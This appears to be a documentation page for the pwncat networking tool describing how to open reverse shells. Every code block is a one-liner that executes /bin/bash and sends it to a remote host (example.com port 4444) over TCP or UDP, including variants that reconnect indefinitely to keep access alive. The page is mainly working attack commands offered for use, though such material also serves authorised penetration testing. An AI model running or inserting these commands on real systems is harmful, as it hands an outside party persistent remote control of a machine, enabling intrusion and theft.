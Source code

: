 *************
Reverse Shell
*************


.. note::

   :ref:`what_is_a_reverse_shell`


``pwncat`` will by default connect to both, IPv4 and IPv6 and initiate a successful connection to whatever protocol is available.


TCP Reverse shell
=================

Default TCP reverse shell connecting to ``example.com:4444`` which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444


The following is a Ctrl+c proof TCP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1


UDP Reverse shell
=================

Default UDP reverse shell which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u


The following is a Ctrl+c proof UDP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
